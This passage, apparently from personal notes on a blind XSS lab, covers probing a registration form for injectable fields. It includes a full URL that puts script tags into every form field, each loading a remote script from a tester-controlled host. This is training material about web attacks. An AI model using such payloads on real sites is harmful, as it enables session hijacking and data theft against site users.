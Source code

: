 if we had access to the source code like in DOM XSS then we could be more precise in what would work for an injection   
blind XSS is much more successful with DOM 

so now we can go back to our form and inject these script tags with their relative names: 

![](Images/Pasted%20image%2020240124204014.png)

or we can use the full url:

`http://10.129.46.176/hijacking/?fullname=<script src=http://10.10.15.210/fullname></script>&username=<script src=http://10.10.15.210/username></script>&password=<script src=http://10.10.15.210/password></script>&email=<script src=http://10.10.15.210/email></script>&imgurl=<script src=http://10.10.15.210/imgurl></script>`

although we notice that even by not going through the UI the email field will always return invalid, meaning there is frontend and backend validation: 
